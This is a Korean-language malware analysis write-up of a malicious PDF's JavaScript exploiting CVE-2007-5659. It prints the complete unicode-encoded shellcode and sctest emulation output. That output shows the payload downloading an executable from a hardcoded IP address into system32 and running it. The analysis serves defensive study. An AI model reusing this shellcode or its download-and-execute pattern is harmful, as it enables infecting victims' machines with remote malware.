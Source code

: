 결과적으로 해당 악성 자바스크립트는 CVE-2007-5659 취약점을 사용해서 쉘코드를 실행하도록 구성되어 있음.

### 5. 쉘코드 분석
`
$ cat shellcode_unicode 
%u4343%u4343%u0feb%u335b%u66c9%u80b9%u8001%uef33%ue243%uebfa%ue805%uffec%uffff%u8b7f%udf4e%uefef%u64ef%ue3af%u9f64%u42f3%u9f64%u6ee7%uef03%uefeb%u64ef%ub903%u6187%ue1a1%u0703%uef11%uefef%uaa66%ub9eb%u7787%u6511%u07e1%uef1f%uefef%uaa66%ub9e7%uca87%u105f%u072d%uef0d%uefef%uaa66%ub9e3%u0087%u0f21%u078f%uef3b%uefef%uaa66%ub9ff%u2e87%u0a96%u0757%uef29%uefef%uaa66%uaffb%ud76f%u9a2c%u6615%uf7aa%ue806%uefee%ub1ef%u9a66%u64cb%uebaa%uee85%u64b6%uf7ba%u07b9%uef64%uefef%u87bf%uf5d9%u9fc0%u7807%uefef%u66ef%uf3aa%u2a64%u2f6c%u66bf%ucfaa%u1087%uefef%ubfef%uaa64%u85fb%ub6ed%uba64%u07f7%uef8e%uefef%uaaec%u28cf%ub3ef%uc191%u288a%uebaf%u8a97%uefef%u9a10%u64cf%ue3aa%uee85%u64b6%uf7ba%uaf07%uefef%u85ef%ub7e8%uaaec%udccb%ubc34%u10bc%ucf9a%ubcbf%uaa64%u85f3%ub6ea%uba64%u07f7%uefcc%uefef%uef85%u9a10%u64cf%ue7aa%ued85%u64b6%uf7ba%uff07%uefef%u85ef%u6410%uffaa%uee85%u64b6%uf7ba%uef07%uefef%uaeef%ubdb4%u0eec%u0eec%u0eec%u0eec%u036c%ub5eb%u64bc%u0d35%ubd18%u0f10%u64ba%u6403%ue792%ub264%ub9e3%u9c64%u64d3%uf19b%uec97%ub91c%u9964%ueccf%udc1c%ua626%u42ae%u2cec%udcb9%ue019%uff51%u1dd5%ue79b%u212e%uece2%uaf1d%u1e04%u11d4%u9ab1%ub50a%u0464%ub564%ueccb%u8932%ue364%u64a4%uf3b5%u32ec%ueb64%uec64%ub12a%u2db2%uefe7%u1b07%u1011%uba10%ua3bd%ua0a2%uefa1%u7468%u7074%u2F3A%u372F%u2E38%u3031%u2E39%u3033%u352E%u632F%u756F%u746E%u302F%u3530%u4441%u3635%u2F46%u6F6C%u6461%u702E%u7068%u703F%u6664%u613D%u3836%u6534%u6563%u6565%u3637%u6366%u3235%u3732%u3337%u3832%u6136%u3938%u6235%u3863%u3334%u0036
`
<br><br>
다음 쉘코드를 분석하기 위해 exe파일로 변환하여 분석하는 방법을 사용함. 자바스크립트에서 핵심이 되는 쉘코드를 추출하여 shell_unicode에 저장함.

```shell
cat shellcode_unicode | unicode2raw > shellcode.raw
cat shellcode.raw | sctest -Svs 10000000 > sctest-out.txt
more sctest-out.txt
verbose = 1
Hook me Captain Cook!
userhooks.c:132 user_hook_ExitThread
ExitThread(-1)
stepcount 314321
HMODULE LoadLibraryA (
     LPCTSTR lpFileName = 0x00417193 => 
           = "URLMON";
) = 0x7df20000;
UINT GetSystemDirectory (
     LPTSTR lpBuffer = 0x00416c1e => 
           = "c:\WINDOWS\system32";
     UINT uSize = 255;
) =  19;
ERROR  DeleteFile (
     LPCTSTR lpFileName = 0x00416c1e => 
         none;
) =  -1;
HRESULT URLDownloadToFile (
     LPUNKNOWN pCaller = 0x00000000 => 
         none;
     LPCTSTR szURL = 0x0041719a => 
           = "http://78.109.30.5/count/005AD56F/load.php?pdf=a684eceee76fc522773286a895bc8436";
     LPCTSTR szFileName = 0x00416c1e => 
           = "c:\WINDOWS\system32\~.exe";
     DWORD dwReserved = 0;
     LPBINDSTATUSCALLBACK lpfnCB = 0;
) =  0;
UINT WINAPI WinExec (
     LPCSTR lpCmdLine = 0x00416c1e => 
           = "c:\WINDOWS\system32\~.exe";
     UINT uCmdShow = 0;
) =  32;
void ExitThread (
     DWORD dwExitCode = -1;
) =  0;
```